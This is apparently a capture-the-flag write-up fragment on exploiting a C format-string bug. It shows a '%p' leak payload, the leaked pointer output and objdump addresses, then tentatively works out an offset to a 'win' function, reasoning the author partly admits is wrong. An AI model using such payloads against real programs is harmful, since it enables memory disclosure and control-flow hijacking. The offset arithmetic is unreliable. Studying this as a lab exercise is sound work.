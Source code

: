 ![screen shot of terminal with %p... inputs](../images/terminal_000.png)

I wasnt too sure about c format exploits so I found examples on this [site](https://exploit-notes.hdks.org/exploit/binary-exploitation/method/binary-exploitation-with-format-string/)

```
$ Enter your name:%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x558c6abc82a10xfbad22880x7fff0e5e73d0(nil)0x21001(nil)0x7f852f6917600x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x25702570257025(nil)0xfffbdc94dca48000x7fff0e5e74300x558c447c54410x10x7f852f4e524a0x7fff0e5e75300x558c447c54000x1447c40400x7fff0e5e75480x7fff0e5e75480xee96304b47191866(nil)0x7fff0e5e7558(nil)0x7f852f6f2020
```

I looking for a hex value that ends with 400, since the main function is at `0000000000001400`.

```python
> > > for i in a.split("0x"):
> > > ... print(i)
> > > ...

558c6abc82a1
fbad2288
7fff0e5e73d0
21001
7f852f691760
7025702570257025
7025702570257025
7025702570257025
7025702570257025
7025702570257025
7025702570257025
7025702570257025
25702570257025
fffbdc94dca4800
7fff0e5e7430
558c447c5441
1
7f852f4e524a
7fff0e5e7530
558c447c5400
1447c4040
7fff0e5e7548
7fff0e5e7548
ee96304b47191866
7fff0e5e7558
7f852f6f2020
```

In the objdump I found `000000000000136a <win>:` and `1340:	e8 5b fe ff ff       	call   11a0 <__isoc99_scanf@plt>`. I thought `7fff0e5e73d0` to be my current pointer address but I was wrong.
this would mean that there is a 2A difference from 136A to 1340. so if I did 2a + 7fff0e5e73d0, I might jump to the win subroutine.
